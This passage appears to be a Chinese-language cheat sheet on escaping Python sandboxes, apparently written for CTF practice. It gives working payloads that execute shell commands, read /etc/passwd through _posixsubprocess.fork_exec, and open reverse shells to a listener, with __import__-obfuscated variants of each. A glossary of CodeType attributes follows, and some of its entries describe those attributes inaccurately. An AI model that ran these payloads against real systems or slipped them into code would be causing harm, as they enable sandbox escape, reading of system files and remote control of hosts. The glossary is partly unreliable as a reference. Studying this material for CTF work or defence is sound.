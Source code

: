 ```py
__import__('multiprocessing').Process(target=lambda: __import__('os').system('ls')).start()
```

#### _posixsubprocess 
```py
import os
import _posixsubprocess

_posixsubprocess.fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

结合 `__loader__.load_module(fullname)` 导入模块
```py
__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module('os').pipe()), False, False,False, None, None, None, -1, None, False)
```

#### 反弹 shell
```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

```py
s=__import__('socket').socket(__import__('socket').AF_INET,__import__('socket').SOCK_STREAM);s.connect(("127.0.0.1",12345));[__import__('os').dup2(s.fileno(),i) for i in range(3)];__import__('pty').spawn("/bin/sh")
```

#### 构造代码对象进行 RCE
`CodeType` 是 python 的内置类型之一，用于表示编译后的字节码对象。`CodeType` 对象包含了函数、方法或模块的字节码指令序列以及与之相关的属性。

python 中关于 code class 的文档链接:
- [types — Dynamic type creation and names for built-in types — Python 3.11.3 documentation](https://docs.python.org/3/library/types.html#types.CodeType)


`CodeType` 对象具有以下属性：
- `co_argcount`: 函数的参数数量，不包括可变参数和关键字参数。
- `co_cellvars`: 函数内部使用的闭包变量的名称列表。
- `co_code`: 函数的字节码指令序列，以二进制形式表示。
- `co_consts`: 函数中使用的常量的元组，包括整数、浮点数、字符串等。
- `co_exceptiontable`: 异常处理表，用于描述函数中的异常处理。
- `co_filename`: 函数所在的文件名。
- `co_firstlineno`: 函数定义的第一行所在的行号。
- `co_flags`: 函数的标志位，表示函数的属性和特征，如是否有默认参数、是否是生成器函数等。
- `co_freevars`: 函数中使用的自由变量的名称列表，自由变量是在函数外部定义但在函数内部被引用的变量。
- `co_kwonlyargcount`: 函数的关键字参数数量。
- `co_lines`: 函数的源代码行列表。
- `co_linetable`: 函数的行号和字节码指令索引之间的映射表。
- `co_lnotab`: 表示行号和字节码指令索引之间的映射关系的字符串。
- `co_name`: 函数的名称。
- `co_names`: 函数中使用的全局变量的名称列表。
- `co_nlocals`: 函数中局部变量的数量。
- `co_positions`: 函数中与位置相关的变量（比如闭包中的自由变量）的名称列表。
- `co_posonlyargcount`: 函数的仅位置参数数量。
- `co_qualname`: 函数的限定名称，包含了函数所在的模块和类名。
- `co_stacksize`: 函数的堆栈大小，表示函数执行时所需的堆栈空间。
- `co_varnames`: 函数中局部变量的名称列表。
